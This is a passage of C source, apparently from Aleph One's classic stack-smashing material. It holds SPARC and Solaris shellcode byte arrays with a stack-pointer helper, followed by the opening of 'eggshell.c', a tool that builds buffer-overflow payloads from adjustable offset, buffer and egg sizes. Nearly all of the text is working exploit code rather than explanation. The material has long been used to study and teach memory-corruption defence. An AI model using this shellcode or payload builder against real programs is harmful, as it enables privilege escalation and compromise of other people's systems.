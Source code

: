 ```C
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#elif defined(__sparc__) && defined(__sun__)

#define NOP_SIZE        4
char nop[]="\xac\x15\xa1\x6e";
char shellcode[] =
  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";

unsigned long get_sp(void) {
  __asm__("or %sp, %sp, %i0");
}

#endif
```
<PRE>

eggshell.c
</PRE>
```C
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include <stdlib.h>
#include <stdio.h>
#include "shellcode.h"

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048

void usage(void);

void main(int argc, char *argv[]) {
  char *ptr, *bof, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

  while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
    switch (c) {
      case 'a':
        align = atoi(optarg);
        break;
      case 'b':
        bsize = atoi(optarg);
        break;
      case 'e':
        eggsize = atoi(optarg);
        break;
```